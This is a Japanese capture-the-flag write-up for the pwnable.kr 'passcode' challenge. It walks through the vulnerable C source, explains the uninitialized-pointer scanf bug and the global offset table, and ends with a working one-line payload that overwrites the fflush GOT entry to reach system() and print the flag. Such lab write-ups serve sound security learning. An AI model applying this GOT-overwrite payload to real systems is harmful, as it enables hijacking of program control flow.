







# 内容
GOT overwiteの問題。BOFと同じ要領で行ける。
実際にプログラムを実行してみる

```bash
$ssh passcode@pwnable.kr -p2222
passcode@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Jul 16 00:03:26 2019 from 118.238.217.72
passcode@prowl:~$ ls
flag  passcode  passcode.c
passcode@prowl:~$ cat flag
cat: flag: Permission denied
passcode@prowl:~$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!
enter passcode1 : test
enter passcode2 : checking...
Login Failed!
passcode@prowl:~$ cat passcode.c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}

passcode@prowl:~$`
```

scanfの引数がアドレスではないため、失敗する模様。	でも、なぜsegmantation faultにならないのだろうか・・・。
いずれにしてもida proでディスアセンブリをしてみる。

# ディスアセンブリ
まず、login関数を見てみる。



スタックは以下のように積まれていることが分かる。



この時、stackに積まれているpasscodeの数値は初期化されていないことから、ランダム値が入ることが予想できる。
つまり、scanfはランダムのアドレスに値を書き込もうとしている。
図にすると以下のようになる。



この状態では他のアドレス値の値を上書きしてしまうので、エラーになる。
しかし、任意のアドレスを指定することが出来れば、system関数を呼ぶことが出来る！(これが重要)。
つまり、passcodeの値を何とかして書き換えればよい。

# どこのアドレスを書き換えるのか
passcodeの値の指定前に、どこのアドレスのデータを書き換えるとsystemが呼べるようになるか考える。
ここで重要になってくるのがGOT(global offset table)。

* GOT(Global Offset Table)
  * 動的関数のエントリポイントを持つ配列。実際の関数のアドレスを管理する。これにより、動的関数(soファイル的な？)を使用するプログラムのアドレス配置が容易になる。

* PLT(Procedure Linkage Table)
  * GOTの場所を参照しているテーブル。なんで必要なのかは知らん。情弱ですまん。

動的な関数とはprintfや、scanf,puts等になる。なぜならこれらの関数はlibc.soから呼ばれているから。
例として、fflush関数が最終的にどのように呼ばれるか追ってみる。





pltはjmp命令でgotに飛んでいるため、gotで参照しているデータの値をsystem関数が呼ばれている一個前あたりのアドレスにすればよい。
今回の場合、login関数ではscanf実行後、fflushをしている。
このことと、GOTの特性を考えると、GOTのfflushのデータ値にsysytem関数が呼ばれているひとつ前のアドレス値(mov dword ptr [esp]～ってところね)を上書きすれば、system関数に飛ぶことが出来る
* ※jmpを二回しているように見えるが(plt→got→実際の関数のアドレス)、pltに指定している値は”[アドレス]”になるので、jmp命令はアドレスの中のデータ値を見ていることになる。そのため、GOTのデータを書き換えると、ほかの場所に飛ぶことが出来る。

# passcode1の初期化方法
scanfでアドレスのデータを上書きするにしても、passcodeの変数を初期化できなければ意味がない。
しかし、passcode1をlogin関数内で変更することは、一番最初のスタックの図から見ても厳しいことが分かる(passocde1が一番上に積まれているので、上から下に行くスタックでは書き換えることが出来ない)。

そこで、loginの前のwelcom関数のscanf入力から何とかしてpasscode1を初期化する。
これがなぜできるかと言うと、スタックの値は関数が終了しても初期化されないから。c言語だと局所変数は関数が終了した時点でメモリから消えると言われているが(確かそう)、実際のアセンブラを見ると、データはスタック上に残っていることが分かる。

そのことについて、以下に図を示した。





# 結論
先ほど話した理由から以下のフローで動作することが分かる。
1. 96文字適当な文字を入れる
2. 続いて、fflushのアドレスを入れることで、passcode1の値を初期化する
3. 続いてsysytem関数の一個前のアドレスを入れることで、scanfでfflushのデータを書き換える

では、実際にやってみる。
* 注意　：　scanfで入力するときはint型なため、最後は10進数で入力する。
* 注意2　：　enter passcode1が最後に出力されているのはprintfのバッファーの問題らしい。printfは文字を出力するとき、改行文字が出るまでバッファーに貯めるらしい？よくわからない。詳しくは"printf fflush"などで調べると出てくる。
```bash
$ python -c "print 'A'*96 +'\x04\xa0\x04\x08'+'134514147'" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

flagゲット。    
